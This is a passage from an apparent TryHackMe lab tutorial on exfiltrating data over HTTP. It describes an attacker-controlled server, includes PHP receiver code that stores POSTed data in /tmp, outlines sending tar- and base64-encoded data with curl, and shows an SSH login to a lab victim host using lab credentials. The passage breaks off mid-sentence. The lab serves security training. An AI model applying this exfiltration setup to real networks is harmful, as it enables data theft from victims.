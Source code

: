In a typical real-world scenario, an attacker controls a web server in the cloud somewhere on the Internet. An agent or command is executed from a compromised machine to send the data outside the compromised machine's network over the Internet into the webserver. Then an attacker can log in to a web server to get the data, as shown in the following figure.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/789a9a13d9977b11d11f53bb7dbb9f3a.png)

HTTP Data Exfiltration

Based on the attacker configuration, we can set up either HTTP or HTTPS, the encrypted version of HTTP. We also need a PHP page that handles the POST HTTP request sent to the server.

We will be using the HTTP protocol (not the HTTPS) in our scenario. Now let's assume that an attacker controls the web.thm.com server, and sensitive data must be sent from the JumpBox or  victim1.thm.com machine in our Network 2 environment (192.168.0.0/24).  

To exfiltrate data over the HTTP protocol, we can apply the following steps:

    An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
    A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
    The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
    The attacker logs into the webserver to have a copy of the received data.

Let's follow and apply what we discussed in the previous steps. Remember, since we are using the HTTP protocol, the data will be sent in cleartext. However, we will be using other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format!

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Now from the Jump machine, connect to the victim1.thm.com machine via SSH to exfiltrate the required data over the HTTP protocol. Use the following SSH credentials: thm:tryhackme.

```
Connecting to Victim1 machine from Jump Box

           
			
thm@jump-box:~$ ssh thm@victim1.thm.com


```

You can also connect to it from AttackBox using port 2022 as follow,
